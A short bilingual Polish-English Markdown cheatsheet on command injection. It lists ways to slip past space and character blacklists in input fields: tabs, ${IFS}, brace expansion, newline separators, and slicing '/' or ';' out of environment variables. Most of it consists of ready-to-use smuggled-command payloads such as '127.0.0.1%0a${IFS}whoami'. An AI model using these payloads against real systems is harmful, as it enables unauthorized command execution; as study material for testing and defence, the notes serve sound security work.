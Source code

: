 # 🧨 Command Injection: Bypassing Space Filters Cheatsheet

## 🚫 Problem: Spacja zablokowana
- Spacja (` `) często jest blacklistowana, np. w polach typu IP.
- Przykład niedziałającego payloadu:  
  `127.0.0.1%0a whoami` → ❌ _Invalid input_

## ✅ Bypass Techniki

| Metoda             | Opis                                                                 | Przykład payloadu                   | Działa w OS        |
|--------------------|----------------------------------------------------------------------|-------------------------------------|--------------------|
| **Tab (`\t`)**     | Użyj tabulatora (`%09`) zamiast spacji                               | `127.0.0.1%0a%09whoami`             | Linux/Windows      |
| **${IFS}**         | Linux var: Internal Field Separator (spacja lub tab)                 | `127.0.0.1%0a${IFS}whoami`          | Linux              |
| **Brace Expansion**| Bash: rozwija `{cmd,arg}` do `cmd arg`                               | `127.0.0.1%0a{ls,-la}`              | Linux/Bash         |
| **New Line (`\n`)**| Często nie jest filtrowany, działa jako separator                    | `127.0.0.1%0awhoami`                | Linux/Windows      |

> 🔎 Tip: Testuj pojedynczo — najpierw operator, potem każdą kolejną część payloadu.

## 📚 Źródła
- PayloadsAllTheThings: `Command Injection` → *"Commands without spaces"*

---
---
# 🔓 Bypassing Blacklisted Characters (Slashes, Semicolons, etc.)

## 🐧 Linux

**Using Env Variables:**
- Extract a single character: `${VAR:start:length}`
- Get `/` from `$PATH`:
  ```bash
  echo ${PATH} / returns local env
  ${PATH:0:1}  # returns /
  ${HOME:0:1}  # returns /
  ```
- Get `;` from `$LS_COLORS`:
  ```bash
  echo #{LS_COLORS} # return rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;3
  ${LS_COLORS:10:1}  # returns ;
  ```

**Other useful vars:** `$PWD`, `$HOME`, `$SHELL`

**Tips:**
- `${IFS}` → space
- Use `printenv` to search for variables with useful chars
